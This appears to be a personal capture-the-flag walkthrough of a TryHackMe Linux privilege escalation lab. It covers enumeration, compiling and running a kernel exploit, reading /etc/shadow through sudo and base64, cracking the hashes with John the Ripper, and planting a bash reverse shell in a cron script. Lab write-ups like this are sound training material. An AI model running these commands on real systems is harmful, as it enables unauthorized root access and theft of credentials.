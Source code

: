 ## TASK 3 - ENUMERATION
This task is pretty straight-forward. Just run some commands and you'll be all set. Let's see, shall we?

	uname -a
For kernel version

	cat /etc/os-release
OR instead of `cat`

	lsb_release -a
And for python version

	python -V
Above are 3 separate commands (cat & lsb will do the same job!) you can run individually, or you can just run them all together, it'll give you your required answers for all except last question. To find it's answer, you gotta research.

HINT:
>Try researching on [ExploitDB](https://www.exploit-db.com/), with EXACT details of os from `uname -a`  or from `cat` or from `lsb_release -a` command.

Before you move onto next task, `find` the `-name` of file `flag1.txt` before-hand, if you understand my hint 😏. It has flag for [[#TASK 5 - KERNEL EXPLOIT]], **but not that easy to just `cat` it huh!**

## TASK 5 - KERNEL EXPLOIT

This one might look easy but is somewhat moderately difficult if you haven't done some of the things mentioned here, like **setting up a `SimpleHTTPserver` using python module and `wget`**.
Anyways, either you can download the **required exploit** found from [[#TASK 3 - ENUMERATION]] or simply use `searchsploit` to find it locally on your `kali-linux`, because you `probably have it by default`.

Move it to your `/home/kali` i.e. default home location, so that it's easy for you later on. Once doing that setup the `http-server` by running this command-

	python -m http.server
Default port is `8000` but, if you want, you can run it on port such as `9000` or any other which supports running server on it, by adding it in the end like -

	python -m http.server 9000
And that's all set!

Now get back to your `karen` terminal, where you are logged in, and use `wget` to download the exploit on the target machine by doing this -
>wget http://\<Attack-Box IP\>:port/exploit_file

If you did all good till here, your target machine will download the exploit!
Now that your exploit is ready, **DON'T RUN IT YET, YOU MORON!** First read the exploit on [ExploitDB](https://www.exploit-db.com/) about how to use it! In the comments before code, it clearly says how to run it, which is these step in order -
> uname -a

To get your Linux details once again,
> gcc <exploit_name>.c -o ofs

The above command will compile the exploit which is in `C-Language` into a file named `ofs`. Now if you run `id` command, you'll see that `karen` is not *among the root users group*.
But once you run this -

	./ofs
You'll the command execute and complete and once that is done, you'll see the terminal change from `$` to `#`. Now run the `id` command again and you'll see that *now you belong to root group*.

Now that you are a root user, `cat` the flag file `flag1.txt` you found earlier! Done
## TASK 6 - EXPLOIT WITH SUDO
#sudo
This task was not much of challenge(in my case, at least). No need for any particular exploit or something. First up we run -

	sudo -l
To list what commands **we can** run with `sudo`.
If you check users in `/home` direc, there's just one, which has flag, which can be seen with `cat` without any need for `sudo`. Next is the nmap one, which is not really a challenge. Just do some research or read the `man` page for nmap, you'll find the answer.
As for *hash of frank's password*, this you can see by running -

	sudo less /etc/shadow
since you can't see system files with `cat` because it cannot be used with `sudo`, so, there's that 😉

## TASK 7 - SUID/SGID EXPLOIT

[ NOTE: Start each machine separately. They are not meant do be done within same target machine. Each target machine has it's own separate data and vulnerabilities! ]

This was an absolute pain, not because it was tricky, but because it was very manual, and repetitive. Anyways here's how its done,

	cat /etc/passwd
should show you the first answer for this question, since it's a pretty `unique user` (there goes your hint!), also, make your life easier and `scp` this file on your local attack box or whatever you are using(**trust me, you're so gonna need it!**).

Now for passwd for `user 2` or, in case you want passwd for all the antique users, this is how its gonna be, since you can't use any command other than `nano` to view, it's a problem.
To cross this obstacle, what you can do is, use `base64` encryption-decryption, simultaneously, to view the `/etc/shadow` file in a manner where you can at least copy it's contents. (Life's pain, especially when you can't `scp` one file(passwd), but not the other(shadow)!)
Once you do that, paste those contents in a file which you can create locally on your attack-box. You can name it `shadow`, like I did, or whatever you wish.
Now to `unshadow` these files, and join their content into a single file, I did this,

	unshadow passwd shadow > passwords.txt
where -
- passwd - file from `scp`
- shadow - content I copied into a locally created file
- passwords.txt - the file in which I'm joining the previous 2 files content by `unshadowing` it!
> The `unshadow` command in Kali Linux is a tool used to combine the `/etc/passwd` and `/etc/shadow` files of the current system or two arbitrary shadow and password files.

Resultant creates a `passwords.txt` file, which then we push into `JohnTheRipper`, (oh hells yeah, this here is cool part!), which will then give us passwords to the users from `Q1` and `user2`

	john passwords.txt
Nothing fancy, just use `john` and give it the hash to crack. You'll get the passwords! Once done, get into any user, I did it with `gerryconway`, you can try with `user 2`, with the `su` command, and inside that user, search for `flag3.txt` file.
Now that you are here, you still won't be able to read the flag! Why? **Because the users are bloody-useless and don't even exist in `sudoers` group**(the group that is allowed to use `sudo` command)! Now what? Nothing, just like before....

	/usr/bin/base64 /home/ubuntu/flag3.txt | /usr/bin/base64 -d
And here you're done with this task! \*Phew, what a pain!

## TASK 8 - CAPABILITIES
The purpose of this task was to merely give an introductory understanding of how `capabilities` work, like the general idea, with some useful commands to practice it.
Rest was pretty standard! When you run this command on the target's terminal -

	getcap -r / 2>/dev/null
which does following:
- **`getcap`**: This command is used to get the capabilities of files.
- **`-r`**: This option tells `getcap` to operate recursively. It will search through all directories and subdirectories starting from the specified directory.
- **`/`**: The directory from which to start the search. In this case, `/` refers to the root directory, meaning it will search the entire filesystem.
- **`2>/dev/null`**: This part of the command redirects standard error (file descriptor 2) to `/dev/null`, effectively discarding any error messages that might be generated during the search.
This'll give you your 2nd & 3rd answer.
As for last, it's again `textbook`. Look for the file and just `cat` it, you'll get your flag.

## TASK 9 - CRON JOBS
#cron 
This one was MAX PAIN! 😅Anyways, took some time but here it is...
- First up, once we login as target with `ssh`, we check the `/etc/crontab` file for running `cron jobs`. There comes our first answer
- But to get the flag we need to *have root access*. For that, in this specific task, we use a cron task that we have access to, in our case, a `backup.sh` file. (A shell script file, nice!)
- Whatever content it has, don't matter, but before that, we'll come back to our terminal and open up a `netcat` listener on port... `6666` let say,

		nc -lvp 6666
- Once done that, we go back to target, change the content of `backup.sh` to:

		#!/bin/bash
		bash -i >& /dev/tcp/<THM-IP>/6666 0>&1
- After changing the content, give this file execution permission with this:

		chmod +x backup.sh
- Here now we just wait at `nc` listener to open up a reverse-shell &  **BOOM!**. It's done. Here you `cat` the flag, and *collect/copy the passwd of user* `matt`, 